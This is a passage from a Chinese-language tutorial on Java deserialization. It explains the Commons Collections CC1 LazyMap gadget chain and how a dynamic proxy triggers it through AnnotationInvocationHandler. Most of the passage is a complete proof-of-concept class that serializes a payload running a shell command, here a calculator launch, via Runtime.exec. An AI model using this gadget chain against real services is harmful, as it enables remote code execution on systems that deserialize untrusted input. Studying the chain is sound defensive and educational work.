 但不过，重写的`readObject`方法中并未涉及到`invoke`相关方法，所以就需要用到动态代理机制，从而执行到`invoke`方法，最终达到执行`get`方法以达到命令的执行。

## 概念验证

结合如上所有，最终构造如下 POC。第一处创建的`AnnotationInvocationHandler`实例是用于利用`invoke`方法触发`LazyMap`中的 get 方法从而达到命令执行，接着会通过调用`Proxy.newProxyInstance()`方法为这个实例创建代理对象 proxyMap，但由于在反序列化的入口是`readObject`方法，所以无法对 proxyMap 直接序列化，所以就需要二次创建`AnnotationInvocationHandler`实例来对 proxyMap 进行包装。

```java
package com.javasec.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1LazyMap {
    public static void main(String[] args) throws Exception{

        Transformer[] ts = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"open -a Calculator"})
        };
        Transformer tc = new ChainedTransformer(ts);

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), tc);

        Constructor constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);

        // 创建第一个AnnotationInvocationHandler实例
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);

        // 调用Proxy.newProxyInstance()方法创建代理对象proxyMap
        Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, handler);

        // 第二次创建AnnotationInvocationHandler实例来对proxyMap进行包装
        handler = (InvocationHandler) constructor.newInstance(Override.class, proxyMap);

        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("cc1-lazymap.ser"));
        outputStream.writeObject(handler);
        outputStream.close();
//        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("cc1-lazymap.ser"));
//        inputStream.readObject();
    }
```